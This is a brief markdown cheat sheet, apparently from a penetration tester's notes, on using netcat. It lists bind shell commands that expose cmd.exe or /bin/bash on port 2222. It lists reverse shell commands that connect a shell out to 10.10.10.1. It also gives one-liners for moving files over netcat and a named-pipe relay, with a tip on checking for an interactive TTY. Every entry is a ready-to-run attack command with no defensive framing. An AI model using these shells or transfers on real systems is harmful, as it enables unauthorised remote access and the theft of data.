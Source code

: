 

  
  
If bind/ reverse bind won't properly execute binaries, verify whether it's a [fully interactive TTY](Fully%20Interactive%20TTY.md):
	Should see:
```bash
tty
	/dev/pts/0
```


 

##### Bind Shells:  
```bash
nc -lvp 2222 -e cmd.exe  
nc -lvp 2222 -e /bin/bash
```

##### Reverse bind:  
```bash
nc -nv 10.10.10.1 -e cmd.exe  
nc -nv 10.10.10.1 -e /bin/bash
```

##### Transfer files from:  
```bash
nc -w 3 [destination] [port] < out.file
```

##### Transfer files to:  
```bash
nc -nlvp [port] > in.file
```
 
##### Named pipes: 
```bash
mknod [pipe] p; nc -l -p [port] < [pipe] | nc [ip] [new_port] > [pipe]
```